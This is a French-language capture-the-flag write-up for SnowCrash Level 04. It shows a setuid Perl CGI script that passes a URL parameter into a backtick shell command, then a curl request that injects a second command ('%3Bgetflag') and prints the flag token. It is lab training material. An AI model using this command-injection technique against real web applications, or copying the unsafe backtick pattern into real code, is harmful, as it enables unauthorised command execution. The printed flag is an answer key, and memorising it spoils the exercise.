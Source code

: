 ## Level 04:

- Meme principe que le Level03
```
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

.pl est une extension pour du script [perl](https://www.tutorialspoint.com/perl-file-extension#:~:text=As%20a%20Perl%20convention%2C%20a,as%20a%20functioning%20Perl%20script.)
## Resolution
 * This file execute itself when doing `curl localhost:4747/level04.pl/`
 * And if the url has a query with a parameter 'x' it will print it.
 * As the text is between backticks and is a shell command we can use it at our advantage
 * `echo $y 2>&1` can become `echo Whatever && ourcommand 2>&1`
 * The last thing to do will be to encrypt spaces and & characters for urls
 * `curl localhost:4747/level04.pl/?x=yoo%3Bgetflag`

```bash
curl localhost:4747/level04.pl/?x=yoo%3Bgetflag
yoo
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

## ⚡ Flag
`ne2searoevaevoem4ov4ar8ap`